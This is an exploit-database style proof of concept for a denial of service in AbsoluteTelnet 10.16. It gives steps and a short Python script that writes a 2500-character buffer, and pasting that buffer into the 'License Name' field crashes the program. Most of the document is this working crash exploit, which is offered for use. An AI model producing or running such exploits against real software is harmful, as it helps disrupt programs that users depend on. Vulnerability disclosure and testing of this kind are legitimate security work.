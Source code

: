POC
---

    #Exploit Title: AbsoluteTelnet 10.16 - 'License name' Denial of Service (PoC)
    #Discovery by: Victor Mondragón
    #Discovery Date: 2019-05-19
    #Vendor Homepage: https://www.celestialsoftware.net/
    #Software Link: https://www.celestialsoftware.net/telnet/AbsoluteTelnet10.16.exe
    #Tested Version: 10.16
    #Tested on: Windows 7 Service Pack 1 x64

    #Steps to produce the crash:
    #1.- Run python code: AbsoluteTelent.py
    #2.- Open AbsoluteTelent.txt and copy content to clipboard
    #3.- Open AbsoluteTelnet.exe
    #4.- Select "Help" > "Enter License Key"
    #5.- In "License Name" paste Clipboard
    #6.- Crashed

    cod = "\x41" * 2500

    f = open('AbsoluteTelent.txt', 'w')
    f.write(cod)
    f.close()
